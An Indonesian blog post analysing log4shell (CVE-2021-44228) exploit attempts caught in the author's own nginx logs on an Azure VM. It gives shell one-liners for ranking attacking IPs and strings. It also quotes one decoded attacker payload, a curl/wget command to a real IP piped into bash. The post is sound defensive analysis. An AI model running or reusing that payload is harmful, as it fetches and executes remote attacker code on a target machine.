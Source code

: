 ```yaml
---
layout: post
published: true
title: nginx log terkait log4j/ log4shell
author: admin
comments: true
date: '2021-12-23 22:00'
categories:
  - vuln
  - nginx
  - log
---
```

#### intro

log4j/ log4shell adalah sebuah vuln yang cukup menghebohkan di akhir tahun ini, hal ini karena aplikasi logging ini cukup banyak di pakai di software OSS, serta vuln. nya yang cukup parah.
salah satu script logging memiliki kelemahan yang membuat attacker bisa menjalankan perintah dari jauh (RCE) dengan mengirimkan parameter tertentu ke service yang menjalankan j4log tersebut.
tulisan ini memperlihatkan beberapa exploitasi yang tertangkap di nginx log milik penulis di salah satu penyedia jasa cloud.
<!--more-->
#### informasi terkait log4j/ log4shell
cara kerja exploit: ![log4j](/images/log4j.jpg)

informasi cve-nya: [mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

#### nginx di azure
beberapa hari setelah berita log4j ramai di jagat infosec, dan karena masih terdapat sisa credit azure, maka penulis menjalankan aplikasi nginx di salah satu vm di azure.
sebenarnya penulis juga menjalankan inetsim, untuk mencoba peruntungan pada port lain, namun log inetsim sangat sedikit (jarang di akses), dan mungkin nanti dilakukan update pada tulisan ini setelah inetsim lebih laku.
hasil dari log selama beberapa hari tersebut membuat kita bisa mempelajari lebih jauh serangan yang dilakukan. berikut beberapa hasilnya:

1. ip berdasarkan request terbanyak yang memuat string "jndi"
```bash
cat access.log* | grep -i jndi |awk '{print $1}'| sort | uniq -c | sort -rn > top_ip_jndi.txt
```
![topip](/images/log4j2.PNG)

2. menambahkan negara ke list ip pada nomor sebelumnya
```bash
cat top_ip_jndi.txt | while read amt ip;do country=$(geoiplookup $ip | awk -v FS="(GeoIP Country Edition: |,)" '{print $3}'); echo $amt $ip $country; done;
```
![topipwithcountry](/images/log4j3.PNG)

3. melihat rincian string exploit
```bash
cat access.log* | grep -i jndi |awk '{print $7}'| sort | uniq -c | sort -rn
```
![strings](/images/log4j1.PNG)

dengan merefer ke gambar pada bagian awal, kita dapat melihat bahwa serangan ini cukup sederhana. attacker mengirimkan string lookup ke sebuah server yang dikuasai, reply dari lookup tersebut akan di eksekusi oleh server target (RCE).
namun terlihat pada gambar diatas, kebanyakan serangan tersebut hanya bertujuan recon/ mengetahui apakah server vulnerable, dan bukan  merupakan RCE.
string yang paling banyak ditemui (urutan pertama) di-encode dengan base64, yang bila di-decode menampilkan:
```bash
(curl -s 195.54.160.149:5874/[targetsvr]:80||wget -q -O- 195.54.160.149:5874/[targetsvr]:80)|bash
```
secara sederhana mengirimkan alamat [targetsvr] ke resources yang dikuasai penyerang (195.54.160.149) dengan curl/ wget.

#### penutup
walaupun cukup heboh, nampaknya tidak terlalu banyak juga penyerang yang memanfaatkan log4j. Mungkin juga ada attacker yang ketika mengenali versi nginx yang saya jalankan, dan memutuskan tidak perlu mengirimkan string "jndi" sehingga saya tidak mendeteksinya (*pendapat tidak berdasar).
sudah terdapat beberapa langkah mitigasi di dunia maya, sehingga bila anda terdampak, sangat disarankan melakukan mitigasi.
log dari inetsim sendiri akan saya update bila hasilnya menarik.
